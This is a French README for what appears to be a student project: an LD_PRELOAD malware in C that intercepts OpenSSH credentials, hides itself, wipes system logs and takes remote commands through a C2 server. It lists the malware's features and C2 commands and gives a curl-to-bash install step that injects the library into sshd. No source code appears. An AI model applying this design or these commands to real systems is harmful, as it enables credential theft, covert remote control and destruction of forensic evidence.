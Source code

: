 # README - Malware LD_PRELOAD - LibProj

Crée par Zacharie ROGER en classe 3SI1.

## Description
Ce projet est un malware en C utilisant la technique **LD_PRELOAD** pour intercepter et extraire les informations d'identification (credentials) des connexions SSH. Il inclut des fonctionnalités avancées de furtivité, d'anti-forensic, et de contrôle à distance via un serveur C2 (Command & Control).

## Fonctionnalités principales
- **Extraction des credentials SSH** : interception des identifiants des utilisateurs se connectant via OpenSSH.
- **Empêchement de l'ouverture d'un fichier spécifique**.
- **Techniques anti-forensic** : suppression des logs système.
- **Port Knocking** : pour exécuter des commandes à distance de manière discrète.
- **Désinstallation cachée** : désactivation du malware via un signal spécifique envoyé par le serveur C2.

## Installation
1. **Téléchargement et configuration :**
   ```bash
   bash configure.sh ou curl -s http://localhost/configure.sh | bash
   ```
   Ce script :
   - Télécharge la bibliothèque malveillante.
   - Configure `LD_PRELOAD` pour charger le malware à chaque session.
   - Redémarre SSHD avec LD_PRELOAD pour injecter la librairie.
   - Masque la présence du malware.
   - Efface les logs pour réduire les traces.

## Utilisation du serveur C2
Le serveur C2 permet de :
- Lister les hôtes infectés.
- Récupérer les credentials volés.
- Envoyer des commandes aux clients.
- Déclencher la désinstallation du malware.

### Lancement du serveur C2 :
```bash
./c2_server
```

### Commandes disponibles :
- `list` : Affiche les hôtes infectés.
- `credentials` : Montre les identifiants volés.
- `exec <commande>` : Exécute une commande sur un client infecté.
- `uninstall <ID_client>` : Désinstalle le malware sur la machine ciblée.

## Structure du projet
- `src/` : Code source du malware.
- `include/` : Fichiers d'en-tête.
- `c2_server/` : Code source du serveur C2.
- `configure.sh` : Script d'installation et de dissimulation.
- `Makefile` : Compilation du projet.

## Compilation
```bash
make
```
